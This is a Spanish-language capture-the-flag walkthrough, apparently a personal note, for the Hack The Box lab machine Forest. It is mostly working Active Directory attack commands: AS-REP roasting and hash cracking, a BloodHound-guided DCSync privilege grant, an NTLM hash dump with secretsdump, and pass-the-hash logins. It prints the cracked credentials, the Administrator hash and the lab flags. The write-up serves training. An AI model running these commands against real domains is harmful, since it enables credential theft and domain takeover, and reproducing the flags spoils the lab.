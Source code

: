 ``sudo nmap 10.10.10.161 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``
![[Pasted image 20250313124032.png]]

``nmap 10.10.10.161 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703 -oN target``
![[Pasted image 20250313124107.png]]
domain: htb.local

Vamos a ver un poco más del DC:
``netexec smb 10.10.10.161``
![[Pasted image 20250313124206.png]]

La máquina se llama FOREST. Y confirmamos que el dominio es htb.local
-> /etc/hosts
![[Pasted image 20250313124246.png]]

Para enumerar los usuarios del dominio, podemos conectarnos por RPC con null sesion:

``rpcclient -U '' 10.10.10.161 -N``
-> enumdomusers
![[Pasted image 20250313124508.png]]

Para guardarnos este listado de usuarios y después hacer el correspondiente tratamiento de los datos, vamos a redirigir el output a users.txt

``rpcclient -U '' 10.10.10.161 -N -c 'enumdomusers' > users.txt``

Si miramos el contenido de users.txt, es exactamente lo mismo que el output que vimos anteriormente:
![[Pasted image 20250313124641.png]]


Vamos a hacer un tratamiento a los datos para quedarnos sólo con lo que está entre los corchetes:

``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``
![[Pasted image 20250313124825.png]]


Con este listado de usuarios, y aunque no tengamos sus contraeñas, podemos, por ejemplo, intentar ASREPROAST:

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

-> Bingo.
![[Pasted image 20250313125028.png]]

Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Primero, vamos a averiguar el código de identificación de este tipo de hash (``krb5asrep$23$``) para hashcat:

``hashcat --help | grep -i "kerberos"``
![[Pasted image 20250313125209.png]]

Una vez sabemos el código de identificación, tiramos hashcat con rockyou.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``
![[Pasted image 20250313125311.png]]

svc-alfresco:s3rvice

Vamos a validar las credenciales:
``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![[Pasted image 20250313125410.png]]

Son credenciales válidas. Vamos a comprobar si permite winrm.
![[Pasted image 20250313125504.png]]
Pwn3d!, por lo que podemos conectarnos vía winRM.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``
![[Pasted image 20250313125644.png]]

Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:
![[Pasted image 20250313125828.png]]

user.txt = bf0f56f595904036ffb277db1f60f15a


# PRIVESC

Vamos a compartir bloodhound para ayudarnos en la escalada de privilegios.
-> arrancamos neo4j
``sudo neo4j start
-> arrancamos bloodhound
``bloodhound --no-sandbox &>/dev/null & disown``
Introducimos las credenciales de bloodhound.

Como en este escenario en concreto la víctima tiene el servicio DNS activado, podemos enumerar vía bloodhound-python:

``bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -c all -ns 10.10.10.161``
![[Pasted image 20250313132042.png]]

Una vez hemos generado todos los archivos .json, los subimos desde bloodhound:
![[Pasted image 20250313132148.png]]

![[Pasted image 20250313132228.png]]

Una vez se ha subido correctamente toda la data, buscamos al usuario que tenemos pwneado: svc-alfresco
![[Pasted image 20250313132326.png]]

Y lo marcamos como owned:
![[Pasted image 20250313132345.png]]

Si miramos la información del nodo de svc-alfresco, apartado Reachable High Value Targets, vemos:
![[Pasted image 20250313145534.png]]

svc-alfresco forma parte de "Service Accounts", que a su vez forma parte de "Privileged It Accounts", que a su vez forma parte de "Account Operators".

Si miramos la información del nodo de "Account Operators" + Reachable High Value Targets:
![[Pasted image 20250313145759.png]]

Vemos que Accounts Operators tiene GenericAll sobre Exchange Windows Permissions, que a su vez tiene WriteDacl sobre el dominio htb.local:

Click derecho -> help
![[Pasted image 20250313145841.png]]

GenericAll sobre Exchange Windows Permissions:
![[Pasted image 20250313145901.png]]

WriteDacl sobre el dominio:
![[Pasted image 20250313153133.png]]

En el apartado "Windows Abuse" nos explica el paso a paso.
Para poder abusar de este privilegio a través de Add-DomainObjectAcl tenemos que compartir la herramienta powerview.ps1, para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

Creamos usuario pwn:
![[Pasted image 20250313155139.png]]

Le metemos en el grupo "Exchange Windows Permissions"
![[Pasted image 20250313155200.png]]

Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:
``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:
``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso.
	Aquí bloodhound propone ejecutar el anterior comando identificando al dominio (htb.local) de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza el ataque de DCSync desde el usuario pwn, nos salta error mencionando el Distinguised name.
	Error:
		![[Pasted image 20250313163246.png]]
	Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:
	![[Pasted image 20250313163310.png]]

Esto se soluciona identificando al dominio como:
``-TargetIdentity "DC=htb,DC=local"``
![[Pasted image 20250313160755.png]]


Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``
![[Pasted image 20250313161100.png]]

Nos aparecen todos los hashes NTLM, pero a nosotros nos interesa especialmente el del usuario Administrator.

Validamos el hashNTLM con netexec:
``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``
![[Pasted image 20250313161236.png]]
Listo.

Dado que conocemos el hash NTLM válido de Administrator, y como nos pone Pwn3d, podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM a través de la técnica Pass The Hash.

- psexec:
``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``
![[Pasted image 20250313161653.png]]

- wmiexec: 
``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161707.png]]

- evilwinrm:
Primero deberíamos validar que nos podemos conectar por winrm
``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161332.png]]

``evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
![[Pasted image 20250313161907.png]]

Podemos conectarnos a la máquina víctima y elevar privilegios de cualquiera de estas tres formas descritas.

Recogemos la flag de Administrator en C:\Users\Administrator\Desktop\root.txt

![[Pasted image 20250313162055.png]]

root.txt = fba540a19e1959ee5e4fea99d18e01ce